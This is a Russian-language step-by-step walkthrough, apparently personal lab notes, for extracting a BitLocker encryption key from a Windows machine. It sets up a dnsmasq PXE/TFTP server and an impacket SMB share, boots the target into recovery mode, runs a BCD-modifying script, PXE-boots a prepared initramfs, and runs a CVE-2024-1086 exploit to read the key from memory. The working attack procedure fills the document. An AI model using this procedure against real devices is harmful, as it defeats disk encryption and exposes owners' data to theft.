 ## Настройка dnsmasq
Установим dnsmasq
```
sudo pacman -S dnsmasq
```
Установим в ручную IP адрес 10.13.37.100 любым способом к примеру через GUI
![[Pasted image 20250205173039.png]]
Запустим dhcp сервер
```
sudo dnsmasq --no-daemon \
    --interface=eno2 \
    --dhcp-range=10.13.37.100,10.13.37.101,255.255.255.0,1h \
    --dhcp-boot=bootmgfw.efi \
    --enable-tftp \
    --tftp-root=/home/archi/Files/TFTP \
    --log-dhcp
```
## Настройка SMB
Поднимем нашу smb share
```
sudo smbserver.py -smb2support share /home/archi/Files/TFTP
```

## Проводим атаку
## Загружаемся в Windows в среда восстановления

- Подключим два устройства кабелем Ethernet
- На экране ввода пароля удерживаем **Shift** и нажимаем **Перезагрузка**
- Переходим в **«Поиск и устранение неисправностей» → «Дополнительные параметры» → «Командная строка» → Пропускаем зашифрованный диск**
Далее нам нужно активировать сетевой стек
```
wpeutil InitializeNetwork
```
После подключаем smb share
```
net ues B: \\10.13.37.100\share
```
Копируем созданный скрипт
```
copy B:\script_copy_and_mod_BCD.bat
```
Запустим скрипт, по завершению которого на share появится файл BCD
![[Pasted image 20250626202822.png]]
Далее перезагружаем компьютер, чтобы диск был расшифрован и ключ BitLocker был в памяти, и повторяем процедуру входа в среду восстановления
- На экране ввода пароля удерживаем **Shift** и нажимаем **Перезагрузка**
- Переходим в **«Использовать устройство» → «UEFI: PXE IPv4 ...»**
Далее ждём пока загрузиться наш подготовленный initramfs
После загрузки логинимся
Login: root
Password: "no password"
Заходим в папку CVE-2024-1086 и запускаем exploit

**Тадам, видим ключ шифрования**
